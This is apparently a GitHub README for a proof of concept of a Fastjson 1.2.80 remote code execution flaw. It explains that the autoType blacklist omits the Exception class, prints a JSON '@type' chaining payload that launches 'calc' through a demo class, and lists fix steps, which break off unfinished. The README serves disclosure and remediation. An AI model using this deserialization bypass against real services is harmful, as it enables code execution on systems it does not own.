


# fastjson-rce-1.2.80
Fastjson rce poc for 1.2.80 

### 漏洞成因
`autoType` 黑名单缺少了`Exception` 类，导致被绕过

### payload
```json
{
	"@type": "java.lang.Exception",
	"@type": "com.kk.domain.Poc",
	"name": "calc"
}
```

### 利用方式
1. 编译、运行本程序
   1. `mvn clean package`
   2. `java -jar .\target\fastjson-rce-1.0.0.jar`
2. 发送payload 


### 修复方式
1. 升级到最新版本 v1.2.83
2. 开启safemode
   1. 开启方法如下  

   